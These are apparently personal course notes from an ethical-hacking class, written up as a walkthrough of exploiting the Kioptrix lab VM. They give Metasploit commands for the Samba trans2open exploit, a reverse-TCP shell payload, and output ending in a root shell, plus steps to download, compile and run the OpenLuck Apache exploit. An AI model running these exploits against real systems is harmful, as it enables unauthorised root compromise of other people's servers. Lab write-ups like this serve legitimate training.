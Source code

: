 ```yaml
---
layout: default
title: Exploit
parent: Kioptrix
grand_parent: TCM-Sec - PEH
permalink: /tcm-sec_PEH/kioptrix/exploit
nav_order: 5
---
```


# Exploit <!-- markdownlint-disable-line MD025 MD022 -->
{: .no_toc}

## Table of contents <!-- markdownlint-disable-line MD022 -->
{: .no_toc .text-delta}

- TOC
{:toc }

## metasploit

- `search trans2opnen`
- `use xploit/linux/samba/trans2open`
- `set rhosts`
- `exploit`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 1 closed.  Reason: Died
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 2 closed.  Reason: Died
[-] Meterpreter session 2 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 3 closed.  Reason: Died
[-] Meterpreter session 3 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] Sending stage (1017704 bytes) to 10.0.2.4
[*] 10.0.2.4 - Meterpreter session 4 closed.  Reason: Died
[-] Meterpreter session 4 is not valid and will be closed
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
^C[-] 10.0.2.4:139 - Exploit failed [user-interrupt]: Interrupt 
[-] run: Interrupted
```

- `set payload linux/x86/shell_reverse_tcp`
- `run`:

```console
[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] 10.0.2.4:139 - Trying return address 0xbffffdfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffcfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffbfc...
[*] 10.0.2.4:139 - Trying return address 0xbffffafc...
[*] 10.0.2.4:139 - Trying return address 0xbffff9fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff8fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff7fc...
[*] 10.0.2.4:139 - Trying return address 0xbffff6fc...
[*] Command shell session 5 opened (10.0.2.15:4444 -> 10.0.2.4:32868) at 2022-12-14 00:21:32 +0100

[*] Command shell session 6 opened (10.0.2.15:4444 -> 10.0.2.4:32869) at 2022-12-14 00:21:33 +0100
[*] Command shell session 7 opened (10.0.2.15:4444 -> 10.0.2.4:32870) at 2022-12-14 00:21:35 +0100
[*] Command shell session 8 opened (10.0.2.15:4444 -> 10.0.2.4:32871) at 2022-12-14 00:21:36 +0100

id
uid=0(root) gid=0(root) groups=99(nobody)
```

> WE GOT ROOT

## Manually (kind of)

- download exploit from github ([OpenLuck](https://github.com/heltonWernik/OpenLuck))
- install libssl-dev
- compile 'opelLuck.c'
- execute

![Alt text](../../assets/TCM-Sec/Kioptrix/openLuck.png)

> WE GOT apache ?!?!?

---
